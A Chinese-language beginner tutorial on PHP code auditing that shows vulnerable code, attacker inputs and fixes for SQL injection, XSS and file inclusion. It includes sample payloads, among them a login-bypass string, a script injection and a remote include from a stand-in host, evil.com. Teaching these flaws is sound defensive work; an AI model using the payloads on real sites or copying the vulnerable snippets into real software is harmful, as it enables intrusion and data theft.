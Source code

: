 ```yaml
---
title: PHP 代码审计
description: 了解PHP代码审计的基本概念、方法和实际应用场景，帮助初学者掌握如何发现和修复PHP代码中的安全漏洞。
---
```


# PHP 代码审计

PHP代码审计是一种通过分析PHP代码来发现潜在安全漏洞的过程。它旨在帮助开发者识别和修复可能导致安全问题的代码，从而保护应用程序免受攻击。对于初学者来说，理解PHP代码审计的基本概念和方法是编写安全代码的重要一步。

## 什么是PHP代码审计？

PHP代码审计是指对PHP代码进行系统的审查，以发现可能存在的安全漏洞。这些漏洞可能包括SQL注入、跨站脚本攻击（XSS）、文件包含漏洞、命令注入等。通过代码审计，开发者可以在代码部署之前发现并修复这些问题，从而提高应用程序的安全性。

## 为什么需要PHP代码审计？

PHP是一种广泛使用的服务器端脚本语言，但由于其灵活性和易用性，开发者可能会无意中引入安全漏洞。这些漏洞可能被攻击者利用，导致数据泄露、系统崩溃或其他严重后果。因此，进行PHP代码审计是确保应用程序安全的重要步骤。

## PHP 代码审计的基本步骤

1. **代码审查**：手动或使用工具检查代码，寻找潜在的安全漏洞。
2. **漏洞识别**：识别常见的漏洞类型，如SQL注入、XSS、文件包含等。
3. **漏洞修复**：根据发现的漏洞，修改代码以消除安全隐患。
4. **测试验证**：对修复后的代码进行测试，确保漏洞已被成功修复。

## 常见PHP安全漏洞及示例

### 1. SQL注入

SQL注入是一种常见的安全漏洞，攻击者可以通过恶意输入来操纵数据库查询。以下是一个易受SQL注入攻击的代码示例：

```php
$username = $_POST['username'];
$password = $_POST['password'];

$sql = "SELECT * FROM users WHERE username = '$username' AND password = '$password'";
$result = mysqli_query($conn, $sql);
```

**攻击者输入**：
```
username: admin' --
password: anything
```

**生成的SQL查询**：
```sql
SELECT * FROM users WHERE username = 'admin' --' AND password = 'anything'
```

**修复方法**：使用预处理语句和参数化查询。

```php
$stmt = $conn->prepare("SELECT * FROM users WHERE username = ? AND password = ?");
$stmt->bind_param("ss", $username, $password);
$stmt->execute();
$result = $stmt->get_result();
```

### 2. 跨站脚本攻击（XSS）

XSS攻击允许攻击者在受害者的浏览器中执行恶意脚本。以下是一个易受XSS攻击的代码示例：

```php
echo "Welcome, " . $_GET['name'];
```

**攻击者输入**：
```
name=<script>alert('XSS')</script>
```

**修复方法**：对输出进行转义或使用HTML净化库。

```php
echo "Welcome, " . htmlspecialchars($_GET['name'], ENT_QUOTES, 'UTF-8');
```

### 3. 文件包含漏洞

文件包含漏洞允许攻击者包含并执行任意文件。以下是一个易受文件包含攻击的代码示例：

```php
$page = $_GET['page'];
include($page . '.php');
```

**攻击者输入**：
```
page=http://evil.com/exploit
```

**修复方法**：避免直接使用用户输入作为文件路径，或使用白名单验证。

```php
$allowed_pages = ['home', 'about', 'contact'];
$page = $_GET['page'];

if (in_array($page, $allowed_pages)) {
    include($page . '.php');
} else {
    die('Invalid page');
}
```

## 实际案例

假设你正在开发一个简单的用户登录系统。以下是一个易受SQL注入攻击的代码片段：

```php
$username = $_POST['username'];
$password = $_POST['password'];

$sql = "SELECT * FROM users WHERE username = '$username' AND password = '$password'";
$result = mysqli_query($conn, $sql);

if (mysqli_num_rows($result) > 0) {
    echo "Login successful!";
} else {
    echo "Invalid username or password";
}
```

通过代码审计，你发现这段代码存在SQL注入漏洞。你决定使用预处理语句来修复这个问题：

```php
$stmt = $conn->prepare("SELECT * FROM users WHERE username = ? AND password = ?");
$stmt->bind_param("ss", $username, $password);
$stmt->execute();
$result = $stmt->get_result();

if ($result->num_rows > 0) {
    echo "Login successful!";
} else {
    echo "Invalid username or password";
}
```

## 总结

PHP代码审计是确保应用程序安全的重要步骤。通过识别和修复常见的安全漏洞，如SQL注入、XSS和文件包含漏洞，开发者可以显著提高应用程序的安全性。对于初学者来说，掌握这些基本概念和方法是编写安全代码的关键。

## 附加资源与练习

- **资源**：
  - [OWASP PHP Security Cheat Sheet](https://owasp.org/www-project-php-security-guide/)
  - [PHP Manual: Security](https://www.php.net/manual/en/security.php)

- **练习**：
  - 尝试在本地环境中创建一个简单的PHP应用程序，并模拟代码审计过程。
  - 使用工具如[PHPStan](https://phpstan.org/)或[Psalm](https://psalm.dev/)进行静态代码分析，发现潜在的安全问题。

通过不断学习和实践，你将能够更好地理解和应用PHP代码审计技术，从而编写出更加安全的PHP代码。